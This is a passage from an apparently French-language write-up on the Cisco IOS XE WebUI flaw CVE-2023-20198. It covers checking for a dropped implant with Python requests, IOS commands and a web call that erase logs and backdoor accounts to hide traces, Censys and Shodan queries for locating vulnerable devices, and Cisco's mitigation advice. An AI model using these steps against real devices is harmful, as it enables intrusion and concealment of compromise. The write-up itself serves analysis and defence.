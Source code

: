 ### 4. Vérifier la présence de l'implant

Une fois l'implant déposé, vous pouvez vérifier son exécution. Changez la route en fonction de la configuration de l'implant (ci-dessous exemple de l'implant récupéré).

```py
# Check for the presence of the implant
check_url = f"https://target.com/webui/logoutconfirm.html?logon_hash=1"

response = requests.get(check_url, verify=False)
```

### 5. Suppression des traces

Après avoir déposé l'implant, les attaquants suppriment leurs traces avec les commandes suivantes :

```bash
clear logging 
no username cisco_support 
no username cisco_tac_admin 
no username cisco_sys_manager
```

Il est aussi possible de le faire à travers l'interface web :

```py
# Clean up by deleting the local user account
delete_user_url = f"https://target.com/webui/delete_user/{username}"

response = requests.delete(delete_user_url, verify=False)
```

## Localisation des hôtes vulnérables 

Il est possible d'effectuer une recherche sur le moteur `Censy` avec le mot clef `services.labels=cisco-xe-webui` pour localiser des appareils fonctionant avec XE Webui.

![Alt text](/images/cisco-cve-2023-20198/2023-10-20_13-41.png)

## Protection

La recommandation faite par Cisco est de **désactiver la fonction de serveur HTTP/S** sur les systèmes accessibles sur Internet. Il n'existe pour le moment pas de correctifs.

Selon `Shodan`, il y aurait plus de 140 000 appareils vulnérables dans le monde (recherche : `http.html_hash:1076109428`)

![Shodan](/images/cisco-cve-2023-20198/2023-10-20-13-45-18.png)

## Résumé

Voici un résumé de l'exploitation à travers une animation :

![Graphique](</images/cisco-cve-2023-20198/Exploitation CVE-2023-20198.gif>)
